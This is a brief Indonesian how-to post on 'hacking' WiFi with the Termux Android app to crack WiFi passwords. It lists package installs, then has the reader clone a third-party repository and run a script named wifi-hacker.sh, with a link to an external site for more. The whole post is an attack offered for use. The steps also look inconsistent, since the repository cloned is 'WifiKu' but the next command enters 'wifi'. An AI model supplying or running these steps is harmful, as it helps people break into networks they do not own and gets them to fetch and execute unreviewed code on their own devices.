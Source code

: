 Hack WIFI dengan Aplikas Termux untuk bobol password wifi 

masukan kode perintah wajib di bawah ini
 apt update
apt upgrade
apt install git
apt install wget
apt install proot
pkg install curl
pkg install clang
pkg install tsudo
pkg install tsu

kemudian anda download script hack wifi seperti di bawah ini
 git clone https://github.com/iwakpeyek/WifiKu
cd wifi
chmod +x wifi-hacker.sh
sh wifi-hacker.sh


untuk selengkapnya cek di https://www.kumpulanremaja.com/2019/09/bobol-wifi-dengan-termux.html
